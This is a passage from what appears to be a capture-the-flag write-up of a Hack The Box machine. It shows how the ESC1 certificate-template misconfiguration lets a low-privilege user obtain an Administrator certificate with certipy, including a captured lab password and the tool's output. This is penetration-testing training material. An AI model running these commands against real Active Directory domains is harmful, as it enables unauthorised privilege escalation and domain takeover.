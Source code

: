 ```
        "ESC1": "'SEQUEL.HTB\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
      }
    }
```

[Explanation of the vulnerability](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
![ESC1 explanation](../../assets/blog/images/escape/ESC1_explanation.png)
Then we can request administrator certificate using the following command

```
└─$ certipy req -username "Ryan.Cooper" -password "NuclearMosquito3" -ca "sequel-DC-CA" -target 10.10.11.202 -template UserAuthentication -upn Administrator
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

And then try to authenticate with it
![Certipy authentication fail](../../assets/blog/images/escape/certipy_auth_fail.png)
If you get the error try using the ntpdate and run certipy again
